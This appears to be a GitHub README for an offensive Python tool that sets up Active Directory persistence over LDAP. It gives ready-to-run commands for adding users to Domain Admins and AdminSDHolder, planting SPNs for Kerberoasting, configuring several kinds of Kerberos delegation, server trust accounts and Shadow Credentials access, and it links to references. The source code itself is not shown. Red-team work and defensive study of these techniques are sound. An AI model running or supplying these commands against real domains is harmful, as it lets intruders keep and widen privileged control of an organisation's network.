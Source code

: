 # LDAP Persistence
Python tool to execute several Active Directory persistence techniques through LDAP queries.

## Features

- Add user to Domain Admins Group
- Add user to AdminSDHolder
- Add SPN to user for later Kerberoasting
- Add Unconstrained Delegation to Computer
- Add Server (Un)Trust Account
- Add write access to msDS-KeyCredentialLink for the target computer (Shadow Credentials attack)
- Add Constrained Delegation to Computer
- Add Resource-Based Contrained Delegation to Computer

## Usage

### Add user to Domain Admins Group:

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 0 -t targetUser
```

### Add user to AdminSDHolder

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 1 -t targetUser 
```

### Add SPN to user for later Kerberoasting

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 2 -t targetUser -spn example.local/test.example.local
```

### Add Unconstrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 3 -t targetComputer
```

### Add Server (Un)Trust Account

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 4 -t targetComputer
```

### Add write access to msDS-KeyCredentialLink for the target Computer (Shadow Credentials attack)

Keep in mind that in order to exploit the Shadow Credentials attack you need the following requirements:
- Domain must have Active Directory Certificate Services and Certificate Authority configured.
- Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 5 -t targetComputer
```

### Add Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 6 -t targetComputer -spn cifs/test.example.local
```

### Add Resource-Based Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 7 -t targetComputer -computer example-pc
```

## References

AdminSDHolder - https://adsecurity.org/?p=1906

Add SPN to user for later kerberoasting - https://adsecurity.org/?p=3466

Shadow Credentials - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials

Unconstrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation

Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

Resource-Based Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

Add Server (Un)Trust Account - https://stealthbits.com/blog/server-untrust-account/
